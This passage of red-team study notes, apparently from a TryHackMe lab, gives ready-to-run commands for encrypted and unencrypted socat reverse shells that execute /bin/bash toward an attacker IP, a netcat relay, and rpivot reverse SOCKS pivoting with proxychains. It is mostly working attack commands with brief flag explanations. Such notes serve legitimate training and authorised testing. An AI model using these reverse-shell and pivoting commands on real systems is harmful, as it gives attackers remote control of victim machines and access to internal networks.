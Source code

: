 - Steps:
```
# Create key
openssl req -x509 -newkey rsa:4096 -days 365 -subj '/CN=www.redteam.thm/O=Red Team THM/C=UK' -nodes -keyout thm-reverse.key -out thm-reverse.crt

# req = certificate
# -x509 = type of certificate
# -newkey rsa:4096 = type of key with size
# -days = valid
# -subj = organization, country
# -nodes = NOT encrypt private key
# -keyout PRIVATE = file with the private key
# -out Certificate = file to write certificate

# PEM = privace enhanced mail = concat .key + .cert
cat thm-reverse.key thm-reverse.crt > thm-reverse.pem.

# Start listener
socat -d -d OPENSSL-LISTEN:4443,cert=thm-reverse.pem,verify=0,fork STDOUT

# Connect
socat OPENSSL:10.20.30.1:4443,verify=0 EXEC:/bin/bash

# Without encryption
  # Listener # socat -d -d TCP-LISTEN:4443,fork STDOUT
  # Victim   # socat TCP:10.20.30.129:4443 EXEC:/bin/bash
```

- With NC
```
nc -lvnp 443 -c "nc TARGET PORT"
  -c = --sh-exec
  -e = --exec
```


### Rpivot
- Reverse SOCKS proxy
- Similar to dynamic port forwarding, but this time we start it on the pivot
- [Tool](https://github.com/klsecservices/rpivot.git)

- Steps
  1. Start server.y on the target
    - server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
  2. Upload rpivot on the pivot
  3. Run client.py
    - client.py --server-ip $ATTACKER --server-port 9999
  4. Set up proxychains to pivot over local server on attacking machine
    - proxychains cmd Target:port
```
# Server
python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0

# Client
python2.7 client.py --server-ip 10.10.14.18 --server-port 9999

# Client with authentication
python client.py --server-ip <IPaddressofTargetWebServer> --server-port 8080 --ntlm-proxy-ip <IPaddressofProxy> --ntlm-proxy-port 8081 --domain <nameofWindowsDomain> --username <username> --password <password>

# Proxychains
proxychains firefox-esr 172.16.5.135:80
```
